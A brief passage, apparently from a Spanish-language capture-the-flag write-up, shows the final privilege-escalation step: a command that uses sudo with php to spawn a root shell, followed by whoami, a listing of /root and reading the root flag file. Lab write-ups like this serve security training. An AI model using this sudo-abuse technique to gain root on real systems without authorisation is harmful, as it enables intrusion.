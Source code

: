 Aplico las dos anteriores lineas de comandos y consigo acceso a *root* y desde esta posición busco y encuentro la *flag* de root.

```bash
CMD="/bin/sh"
sudo php -r "system('$CMD');"
whoami
root
cd root
ls
root.txt
snap
cat root.txt
```

